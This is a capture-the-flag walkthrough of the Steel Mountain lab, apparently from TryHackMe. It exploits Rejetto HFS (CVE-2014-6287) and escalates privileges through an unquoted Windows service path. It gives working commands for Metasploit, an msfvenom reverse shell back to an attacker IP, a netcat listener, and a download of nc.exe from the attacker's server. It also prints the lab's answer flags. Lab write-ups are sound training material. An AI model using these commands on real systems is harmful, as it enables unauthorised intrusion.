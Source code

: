 # STEEL MOUNTAIN

## BASIC INFO

```
export IP=10.10.90.232
```

## INITIAL ACCESS

```
nmap -sV -sC -oN nmap/init $IP -p- -T4
```

> - **Scan the machine with nmap. What is the other port running a web server on?**
>> 8080

> - **Take a look at the other web server. What file server is running?**
>> Rejetto Http File Server

There is a link at the bottom left of the page. Once we click, it redirects  us to rejetto.com and the file server name is HttpFileServer.

> - **What is the CVE number to exploit this file server?**
>> 2014-6287

> - **Use Metasploit to get an initial shell. What is the user flag?**
>> b04763b6fcf51fcd7c13abc7db4fd365

```
msfconsole
use exploit/windows/http/rejetto_hfs_exec
This exploit may require manual cleanup of '%TEMP%\BlJLuM.vbs' on the target
```

## PRIVILAGE ESCALATION

Using a script called [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). It is used to evaluate a Windows machine and determine any abnormalities.

In meterpreter, `upload /opt/PowerShellEXploit/PowerUp.ps1`\
Then run `load powershell` followed by `powershell_shell`\
After we spawned a powershell, enter the command `. .\PowerUp.ps1` and `Invoke-allChecks`

> - **Take close attention to the CanRestart option that is set to true. What is the name of the unquoted service path service name?**
>> AdvancedSystemCareService9

Use msfvenom to generate a reverse shell as an Windows executable.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.8.177 LPORT=9001 -e x86/shikata_ga_nai -f exe -o ASCService.exe
```

Upload it with meterpreter, then run the following command in the windows shell.
```
sc stop AdvancedSystemCareService9
copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
```

Then choose yes when prompt to overwrite the program.

Now we create a listener on our host machine.\
`nc -lnvp 9001`\
Then restart the service with `sc start AdvancedSystemCareSevice9` in the windows shell.\
Now we have access to the machine as root.
```
cd C:\Users\Administrator\Desktop
type root.txt
```

> - **What is the root flag?**
>> 9af5f314f57607c00fd09803a587db80

## ACCESS AND ESCALATION WITHOUT METASPLOIT

Download a static netcat binary from [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe)

Then start a simple http service with python.\
`python3 -m http.server 80`

Then as usual we need to set up a listener.\
`nc -lnvp 9001`

Then using this [exploit](exploit.py), we run the command\
`python exploit.py $IP 8080`

We need to run it twice for it to work. First time it will request the nc.exe from our server then second time we will get a shell on our listener.

> - **What powershell -c command could we run to manually find out the service name?**
>> powershell -c Get-Service

Then we just repeat the same process as above to escalate to admin.

![badges](../../../badges/dianchia.png)